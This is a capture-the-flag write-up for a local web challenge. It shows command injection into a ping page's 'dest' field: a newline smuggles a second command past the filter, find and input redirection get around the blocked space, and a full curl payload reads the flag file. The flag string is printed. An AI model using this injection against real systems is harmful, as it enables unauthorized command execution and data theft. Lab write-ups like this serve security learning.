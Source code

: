 # Chall

### 📄 Description
Damn it, that stupid smart cat litter is broken again
Now only the debug interface is available here and this stupid thing only permits one ping to be sent!
I know my contract number is stored somewhere on that interface but I can't find it and this is the only available page! Please have a look and get this info for me!
FYI No need to bruteforce anything there. If you do you'll be banned permanently.

We suggest to use "curl" for communicating with the host. 


Start the server with:
docker-compose up

## 🔑 Solution
* after a couple tries it becomes obvious that the input is passed to a shell but is more or less sanitized
* `%0a` (=> `\n`) isn't prohibited
* ` ` (space) is tho
* we can run `ls` in pwd but we can't check subfolders
* `find` to the rescue (if called without parameters it recursively lists directory starting from pwd)
* looks like the flag is in `./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here/is/the/flag`
* we can't just `cat` it
* after some quick googling we should be able to do `cat<./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here/is/the/flag`

### 🚩 Flag
```
INS{warm_kitty_smelly_kitty_flush_flush_flush}
```
obtained by running `curl -s 'http://localhost:8090/index.cgi' -X POST --data-raw "dest=%0acat<./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here/is/the/flag" | xidel -se "/html/body/pre" -`